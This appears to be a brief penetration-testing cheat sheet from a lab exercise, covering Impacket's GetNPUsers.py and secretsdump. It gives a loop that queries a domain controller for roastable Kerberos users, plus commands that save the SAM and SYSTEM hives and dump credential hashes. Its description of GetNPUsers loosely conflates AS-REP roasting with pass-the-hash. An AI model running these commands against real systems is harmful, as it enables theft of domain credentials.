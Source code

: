 ## GetNPUsers.py
- impacket GetNPUsers is a command-line tool within the Impacket suite, used for extracting Kerberos Pre-Authentication (PreAuth) users from a Windows domain. This tool helps in identifying potential attack vectors and identifying users that can be targeted for pass-the-hash (PtH) or pass-the-ticket (PtT) attacks.
- usage
	- -no-pass 
	- -dc-ip "IP address"
- One liner to paste user file
```
for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done
```
## Secretdump
### dump secrets from local files (need to dump sam and system files)
reg save hklm\sam sam
reg save hklm\system system
```
impacket-secretsdump -sam <Sam_file -system system local
```
